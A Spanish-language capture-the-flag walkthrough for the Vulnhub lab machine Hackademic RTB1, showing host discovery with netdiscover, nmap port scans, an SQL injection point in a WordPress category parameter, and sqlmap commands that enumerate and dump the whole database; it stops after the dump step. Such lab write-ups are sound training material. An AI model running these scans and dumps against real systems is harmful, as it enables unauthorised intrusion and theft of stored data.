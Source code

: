 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=xd&size=50&color=F70000&background=FF000000&width=500&height=70&lines=HACKADEMIC_RTB1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/hackademic-rtb1,17/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Hackademic-RTB1-22?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Identificación de la máquina en la red con NetDiscover. 
```
netdiscover --interface wlan0 --range 192.168.1.0/24
```
![1](https://user-images.githubusercontent.com/75953873/171916293-58226ff2-39aa-4d40-b2b2-df538a7784d1.png)

Objetivo: 192.168.1.5


- *Paso 2:* Escaneo de puertos abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.1.5
```
![2](https://user-images.githubusercontent.com/75953873/171916862-e15a1cc6-e25a-4613-a54c-3d8b3f135135.png)

Detección de sistema operativo y versión: 
```
nmap -p 80 -A 192.168.1.5
```
![3](https://user-images.githubusercontent.com/75953873/171917441-d5f58873-8274-4611-90f6-db7bb9902c1a.png)

Puerto abierto: 80

Servidor web corriendo: HTTP Apache

- *Paso 3:* Búsqueda de vectores vulnerables a SQL. 

```
http://192.168.1.5/Hackademic_RTB1/?cat=1
```
![4](https://user-images.githubusercontent.com/75953873/171920301-015e4c06-3a1f-4535-9790-f4f450563eb9.png)

- *Paso 4:* Inyección de SQL a base de datos con Sqlmap. 

```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' --dbs --batch
```
![5](https://user-images.githubusercontent.com/75953873/171921174-bbf606b5-80d8-4cbc-9a01-8c068de466fc.png)

Extraer toda la información de la base de datos de WordPress:
```
sqlmap --url 'http://192.168.1.5/Hackademic_RTB1/?cat=1' -D wordpress --dump-all --batch
```
